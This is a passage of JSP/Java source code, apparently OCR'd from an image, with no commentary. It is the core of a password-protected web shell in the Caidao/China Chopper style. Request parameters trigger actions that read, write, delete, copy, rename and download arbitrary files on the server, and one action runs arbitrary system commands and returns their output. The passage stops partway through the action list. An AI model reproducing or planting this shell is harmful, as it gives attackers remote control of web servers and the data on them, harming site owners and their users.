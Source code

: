 
    //String Z = EC(request.getParameter(Pwd) + "", cs);  

       cs = request.getParameter("code") != null ? request.getParameter("code")+ "":cs;  
      request.setCharacterEncoding(cs);  
       response.setContentType("text/html;charset=" + cs);  
      StringBuffer sb = new StringBuffer("");  
    if (request.getParameter(Pwd) != null) {  

      try {  
         String Z = EC(request.getParameter("action") + "");  
           String z1 = EC(request.getParameter("z1") + "");  
           String z2 = EC(request.getParameter("z2") + "");  
          sb.append("->" + "|");  
          String s = request.getSession().getServletContext().getRealPath("/");  
         if (Z.equals("A")) {  
              sb.append(s + "\t");  
               if (!s.substring(0, 1).equals("/")) {  
                 AA(sb);  
              }  
          } else if (Z.equals("B")) {  
              BB(z1, sb);  
           } else if (Z.equals("C")) {  
               String l = "";  
              BufferedReader br = new BufferedReader(new InputStreamReader(new FileInputStream(new File(z1))));  
              while ((l = br.readLine()) != null) {  
                   sb.append(l + "\r\n");  
            }  
               br.close();  
          } else if (Z.equals("D")) {  
              BufferedWriter bw = new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(z1))));  
              bw.write(z2);  
              bw.close();  
               sb.append("1");  
          } else if (Z.equals("E")) {  
                EE(z1);  
               sb.append("1");  
           } else if (Z.equals("F")) {  
              FF(z1, response);  
           } else if (Z.equals("G")) {  
             GG(z1, z2);  
               sb.append("1");  
          } else if (Z.equals("H")) {  
              HH(z1, z2);  
              sb.append("1");  
           } else if (Z.equals("I")) {  
              II(z1, z2);  
               sb.append("1");  
           } else if (Z.equals("J")) {  
               JJ(z1);  
             sb.append("1");  
           } else if (Z.equals("K")) {  
               KK(z1, z2);  
               sb.append("1");  
          } else if (Z.equals("L")) {  
               LL(z1, z2);  
             sb.append("1");  
        } else if (Z.equals("M")) {  
               String[] c = { z1.substring(2), z1.substring(0, 2), z2 };  
               Process p = Runtime.getRuntime().exec(c);  
             MM(p.getInputStream(), sb);  
             MM(p.getErrorStream(), sb);  
          } else if (Z.equals("N")) {  
              NN(z1, sb);  
            } else if (Z.equals("O")) {  